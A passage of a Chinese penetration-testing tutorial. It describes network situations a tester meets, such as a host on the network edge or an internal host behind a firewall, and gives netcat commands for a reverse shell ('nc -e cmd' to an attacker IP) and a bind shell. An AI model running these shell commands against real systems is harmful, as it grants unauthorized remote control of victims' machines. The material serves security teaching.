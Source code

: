 B内网主机

C内网主机



+ .B能访问外网允许所有端口访问（罕见）

+ .B只允许指定端口被访问，其他端口不允许访问

+ .B能被A访问，但是C不能被直接访问

> 1.目标处于网络边界，内外网都可以访问，网络边界主机未安装防火墙，所有端口都对互联网开放，此类业务场景已经极少出现；

> 2.目标处于内网，可以访问外网，但是出口部署的有防火墙策略限制外部网络直接访问内网的敏感端口（3389、22、445等）；

> 3.目标处于内网，不能访问外网，但是可以访问边界主机，防火墙策略限制外部网络直接访问内网的敏感端口（3389、22、445等）。



## 常见操作

环境：受害机内访问外网，允许所有端口被直接访问，攻击机处于外网

正向反向：反向

PS:这里的192.168.1.104为攻击机IP

攻击机执行:

```
nc -lvp 4444
```

受害机执行：

```
nc -e cmd 192.168.1.104 4444
```

![](https://s2.ax1x.com/2019/09/18/nHXlTI.md.png)



环境：受害机内访问外网，允许所有端口被直接访问，攻击机处于内网

正向反向：正向

PS:这里的192.168.1.104属于受害机IP

受害机执行：

```
nc -lvp 4444 -e cmd
```

攻击机执行

```
nc 192.168.1.104 4444
```

![](https://s2.ax1x.com/2019/09/18/nHjuCV.png)
